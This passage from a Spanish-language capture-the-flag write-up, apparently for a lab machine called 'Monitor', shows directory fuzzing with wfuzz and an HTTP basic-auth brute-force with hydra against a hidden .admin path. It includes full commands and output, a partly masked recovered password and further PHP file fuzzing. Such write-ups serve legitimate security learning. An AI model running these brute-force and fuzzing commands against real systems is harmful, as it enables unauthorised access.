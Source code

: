 ```bash
ID           Response   Lines    Word       Chars       Payload                                                                                                                                             
=====================================================================

000000259:   401        14 L     54 W       467 Ch      "admin"                                                                                                                                             
```
Me encuentra un direcctorio **.admin** que me pide **usuario:contraseña** que, obviamente no tengo.
![admin-panel]({{'/assets/img/Monitor/admin-login.png' | relative_url}})
Hago fuerza bruta con **hydra** asumiendo que el usuario es **admin** y me encuentre la contraseña correcta.
```bash
❯ hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/common-passwords-win.txt http-get://event.monitoring.nyx/.admin
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-14 12:23:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 815 login tries (l:1/p:815), ~51 tries per task
[DATA] attacking http-get://event.monitoring.nyx:80/.admin
[80][http-get] host: event.monitoring.nyx   login: admin   password: s****m
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-14 12:23:51
```
Obtengo lo mismo **403 Forbidden**
![admin-forbidden]({{'/assets/img/Monitor/admin-forbidden.png' | relative_url}})

Mas fuzzing en este nuevo direcctorio, con la variante de buscar por extensiones **php**
```bash
❯ wfuzz -c --hc=404,401 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --basic 'admin:s****m' "http://event.monitoring.nyx/.admin/FUZZ.php"

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://event.monitoring.nyx/.admin/FUZZ.php
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                             
=====================================================================

000000628:   200        11 L     14 W       133 Ch      "event"                                                                                                                                             
```
Llego hasta este punto, donde solo veo **Event Monitor** sin mas ni mas...
![event-log]({{'/assets/img/Monitor/event-monitor.png' | relative_url}})
